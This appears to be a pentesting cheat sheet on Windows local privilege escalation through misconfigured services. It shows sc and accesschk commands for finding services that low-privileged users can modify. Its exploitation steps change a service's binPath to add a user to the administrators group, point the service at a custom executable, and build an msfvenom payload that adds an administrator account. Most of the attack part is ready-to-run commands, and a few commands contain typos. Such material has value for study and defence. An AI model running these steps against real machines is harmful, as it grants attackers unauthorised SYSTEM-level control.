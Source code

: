 Windows services often run with high privileges and can be misconfigured to allow local p rivilege escalation. If a user has permission to modify the ``binPath`` of a service, they may be able to execute arbitart code with SYSTEM privilege

### Service Basics

```cmd
sc create up-server binPath= "C:\Windows\System32\PING.exe"
```

```cmd
sc qc up-server 
```
```cmd
sc query up-server 
```
```cmd
sc start up-server 
```

```cmd
sc config up-server binPath= "C:\Windows\System32\PING.exe 8.8.8.8"
```

```cmd
sc start up-server
```

--- 

### Enumeration Techniques

*   [Service security editor](https://filecroco.com/download-service-security-edtor)
*   PowerUp - Part of powersploit, used for service misconfiguration enumeration
*   Sysinternals accesschk.exe

```cmd
accesschk.exe -uvwc <service_name>
```

```cmd
accesschk.exe -uvwc up-server
```

---


### Service Permission Enumeration with ``accesschk``

Use ``accesschk.exe`` (from Sysinternals) to identify misconfigured services where low privileged users can **start**, **stop** or **modify** service configurations
checks all services (*) to see what permissions the user ``DevNull`` has - especially wheather they can  **start, stop** or **change** service configurations

```cmd
accesschk.exe -uwcv DevNull *
```

Verifies what could ``administrator`` group has over all services. Usefull to confirm expected behaviour for high-privileged group

```cmd
accesschk.exe -uwcv administrators *
```

Check what standard ``users`` group can do on all services. if ``users`` can modify services, this is a high-end misconfigurations

```cmd
accesschk.exe -uwcv users *
```

Checks what access ``Everyone`` group has to all services. If ``Everyone`` has write/start permissions. it likely leads to **privilege escalation**

```cmd
accesschk.exe -uwcv Everyone *
```

Displays detailed permissions (``-qv``) for the ``copyfile`` service. Use this to inspect a specific service's **discreationary access control list (DACL)**

```cmd
accesschk.exe /acceptable -uwcqv copyfile
```

#### Manual sc based enumeration

```cmd
sc query state= all | findstr "SERVICE_NAME:" >> C:\Users\Public\servicenames.txt
```

```cmd
FOR /F "tokens=2 delims= " %i in (C:\Users\Public\servicenames.txt) DO @echo %i >> C:\Users\Public\services.txt
```

```cmd
FOR /F %i in (C:\Users\Public\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Users\Public\path.txt
```


### Exploitation Steps

#### 1. Update binPath to malicious command or executable

```cmd
sc config <service_name> binPath= "net localgroup administrator DevNull /add"
```

```cmd
sc start <service_name>
```

#### 2. Point a service to a custom EXE

```cmd
sc config <service_name> binPath= "C:\Users\Public\test.exe
```

```cmd
sc start <service_name>
```
#### 3. Optional: Stop or Restart the service if needed

```cmd
sc stop <service_name>
```

```cmd
sc start <service_name>
```

#### 4. Payload generation

*   Create malicious EXE using ``msfvenom``

```bash
msfvenom -p windows/exec CMD="net localgroup administrators u1 /add" -f exe > Registry.exe
```

*   Replace original executive in binPath

